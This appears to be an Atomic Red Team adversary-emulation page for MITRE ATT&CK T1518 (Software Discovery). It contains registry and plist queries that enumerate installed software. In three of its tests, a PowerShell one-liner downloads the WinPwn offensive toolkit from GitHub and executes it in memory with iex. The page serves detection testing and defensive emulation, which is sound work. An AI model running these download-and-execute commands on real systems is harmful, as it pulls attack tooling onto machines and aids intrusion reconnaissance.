 # T1518 - Software Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1518)
<blockquote>Adversaries may attempt to get a listing of software and software versions that are installed on a system or in a cloud environment. Adversaries may use the information from [Software Discovery](https://attack.mitre.org/techniques/T1518) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Adversaries may attempt to enumerate software for a variety of reasons, such as figuring out what security measures are present or if the compromised system has a version of software that is vulnerable to [Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Find and Display Internet Explorer Browser Version](#atomic-test-1---find-and-display-internet-explorer-browser-version)

- [Atomic Test #2 - Applications Installed](#atomic-test-2---applications-installed)

- [Atomic Test #3 - Find and Display Safari Browser Version](#atomic-test-3---find-and-display-safari-browser-version)

- [Atomic Test #4 - WinPwn - Dotnetsearch](#atomic-test-4---winpwn---dotnetsearch)

- [Atomic Test #5 - WinPwn - DotNet](#atomic-test-5---winpwn---dotnet)

- [Atomic Test #6 - WinPwn - powerSQL](#atomic-test-6---winpwn---powersql)


<br/>

## Atomic Test #1 - Find and Display Internet Explorer Browser Version
Query the registry to determine the version of internet explorer installed on the system.
Upon execution, version information about internet explorer will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 68981660-6670-47ee-a5fa-7e74806420a4






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
```






<br/>
<br/>

## Atomic Test #2 - Applications Installed
Query the registry to determine software and versions installed on the system. Upon execution a table of
software name and version information will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** c49978f6-bd6e-4221-ad2c-9e3e30cc1e3b






#### Attack Commands: Run with `powershell`! 


```powershell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
```






<br/>
<br/>

## Atomic Test #3 - Find and Display Safari Browser Version
Adversaries may attempt to get a listing of non-security related software that is installed on the system. Adversaries may use the information from Software Discovery during automated discovery to shape follow-on behaviors

**Supported Platforms:** macOS


**auto_generated_guid:** 103d6533-fd2a-4d08-976a-4a598565280f






#### Attack Commands: Run with `sh`! 


```sh
/usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Dotnetsearch
Search for any .NET binary file in a share using the Dotnetsearch function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7e79a1b6-519e-433c-ad55-3ff293667101






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Dotnetsearch -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #5 - WinPwn - DotNet
Search for .NET Service-Binaries on this system via winpwn dotnet function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 10ba02d0-ab76-4f80-940d-451633f24c5b






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
dotnet -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - powerSQL
Start PowerUpSQL Checks using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 0bb64470-582a-4155-bde2-d6003a95ed34






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powerSQL -noninteractive -consoleoutput
```






<br/>
